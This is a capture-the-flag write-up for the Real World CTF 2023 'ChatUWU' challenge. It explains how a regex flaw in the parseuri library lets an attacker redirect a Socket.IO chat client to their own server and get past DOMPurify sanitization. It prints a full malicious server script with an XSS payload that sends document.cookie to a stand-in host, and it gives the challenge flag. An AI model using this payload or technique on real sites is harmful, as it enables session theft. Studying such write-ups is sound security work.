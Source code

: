 ```yaml
---
layout: post
title: "Real World CTF 2023: ChatUWU Writeup"
categories: writeups
author: WhoNeedsSleep
---
```


[Real World CTF 2023](https://realworldctf.com/challenge) was a jeopardy-style capture-the-flag event.
We participated as part of the [Sauercloud](https://ctftime.org/team/54748) CTF-team.

## Overview
The Challenge description reads: "I can ensure you that there is no xss on the server! You will find the flag in the admin's cookie." Also provided are links to the Challenge and the XSS Bot as well as the source code - So immediatly our goal is clear: steal the cookies of the XSS Bot.

Lets take a look at the application:
+The Challenge is a simple node app with one static html file that is served and a single index.js for as the backend. The app is a simple chat app.

## Lets find a xss
Upon taking a look at the index.html we first see that is uses Socket.IO for the chat communication with the server and also quickly find this:
```js
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `... ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext 
    ...
    messages.appendChild(item);
    ...
```

So any messages received via Socket.IO are inserted into the DOM without sanitization if the chat-room's name is `DOMPurify` and the message's `isHtml` field is `true`.
So lets try to send a message containing a xss-payload

![Screenshot escaped Message](/imgs/rwctf23-chatuwu-escaped-message.png)

Clearly that didn't work - so the server must have sanatized it before sending it back to all clients.

## The server code

Here we immediatly see why our simple attempt failed:
```js
io.to(room).emit('msg', {
    from: DOMPurify.sanitize(msg.from),
    text: DOMPurify.sanitize(msg.text),
    isHtml: true
});
```
Any message send to the clients is piped through DOMPurify - RIP simple XSS.

## A different approach 
Given the simplicity of the app we were pretty sure that the client side DOM inseration is our way of stealing the cookie. So maybe we can attack the connection by hijacking the Socket.IO connection.

Let's see how the client establishes the connection:
```js
let socket = io(`/${location.search}`) 
```

Interesting so the entrire query string is passed into Socket.IO for parsing - lets take a look how the parsing works. In the used `socket.io.js` we find this in the constructor:
```js
uri = parse(uri);
opts.hostname = uri.host
```
Looks promising. We can completly control `uri` except for the leading `/`, lets dig deeper - for `parse` we find this:
```js
  // imported from https://github.com/galkn/parseuri

  /**
   * Parses an URI
   *
   * @author Steven Levithan <stevenlevithan.com> (MIT license)
   * @api private
   */
  ...
  function parse(str) {...}
```

And in the repo we find this issue: https://github.com/galkn/parseuri/issues/12 - And it's still open! Sadly there are no details about the security issue - so we'll have to find it ourselves.

## The vulnerabillity
Let's take a look at the regex used for the parsing of `uri`:
```js
var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
```

The interesting part for us is that it checks for username/password as part of the uri and it does so by looking for any string infront of the first `@` in the passed uri, not just in the authority part. So if we append `@our.domain.invalid` to the end of `uri`, the parse function will treat everything between the protocol and the `@` as a username and `our.domain.invalid` as the hostname.
This is the vulnerabillity we need.

## The Exploit
Idea: We will host a malicious version of index.js ourselves with a key addition: a JS-payload that exfiltrates the cookie is sent instead of the normal join message, which is sent after a user joins to all users including the joining one.

Code:
```js
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 80;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: "<img src onerror='fetch(\"https://our.domain.invalid/?\" + document.cookie)'>",
        isHtml: true
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

We get the Flag:
```
rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```
